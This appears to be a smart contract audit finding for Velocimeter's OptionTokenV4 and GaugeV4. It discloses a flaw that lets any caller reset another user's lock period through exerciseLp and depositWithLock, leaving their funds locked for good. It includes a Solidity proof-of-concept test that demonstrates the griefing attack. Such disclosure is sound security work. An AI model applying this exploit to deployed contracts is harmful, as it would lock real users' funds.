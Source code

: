 Broad Cherry Viper

High

# The user's funds will be permanently locked and unclaimable

## Summary

Users can deposit funds on behalf of others, causing their funds to be permanently locked.

## Vulnerability Detail

In GaugeV4, users can deposit with a lock period through `depositWithLock`, making the amount locked in the contract for a certain period, unable to be withdrawn. However, users can also use `OptionTokenV4._exerciseLp` to call `depositWithLock` on behalf of others, which will reset the `LockEnd[account]` time.

Therefore, if User A calls `depositWithLock` to make a deposit, a malicious user can call `OptionTokenV4._exerciseLp` to deposit the minimum amount on behalf of User A, resetting User A's lock period. The malicious user can reset the `LockEnd` time just before the locked amount's period ends, effectively causing User A's funds to be permanently locked.

Additionally, the admin can create a new gauge to allow users to withdraw their funds after the latest lock period. However, the rewards in the gauge are time-sensitive. If the admin creates a new gauge, it can prevent `OptionTokenV4` from sending funds to the old gauge. However, because the user's funds are locked and cannot be transferred to the new gauge, and the gauge is no longer the old gauge, the user will not be able to claim the rewards in the new gauge.

<details>

<summary>Coded Poc</summary>

### OptionTokenV4.t.sol

```solidity
       function testHackExerciseLp() public { 
        // init
        vm.startPrank(address(owner)); 
        FLOW.approve(address(oFlowV4), TOKEN_1 * 10);
        oFlowV4.mint(address(owner2), TOKEN_1);
        oFlowV4.mint(address(owner3), TOKEN_1);
        washTrades();
        vm.stopPrank();
      
        // owner2 call exerciseLp
        vm.startPrank(address(owner2));
        DAI.approve(address(oFlowV4), TOKEN_100K);
        oFlowV4.exerciseLp(TOKEN_1, TOKEN_1, address(owner2),20,block.timestamp);
        vm.stopPrank();

        uint unlock_time = gauge.lockEnd(address(owner2));

        // owner2 lock time is 31467611 = 1 years
        console.log("owner2 unlock time1: %d", unlock_time);

        vm.warp(31467610);

        // owner3 deposit for owner2
        vm.startPrank(address(owner3));
        DAI.transfer(address(oFlowV4), 7 * 86400 - 2);
        DAI.approve(address(oFlowV4), TOKEN_100K);
        oFlowV4.exerciseLp(10, 10, address(owner2),20,block.timestamp);
        vm.stopPrank();

        unlock_time = gauge.lockEnd(address(owner2));

        // owner2 lock time is 62917210 = 2 years
        console.log("owner2 unlock time2: %d", unlock_time);
    }
```

</details>

## Impact

Users will lose their funds forever

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/OptionTokenV4.sol#L700-L705

## Tool used

Manual Review

## Recommendation

Should not use `depositWithLock`, use `deposit` instead

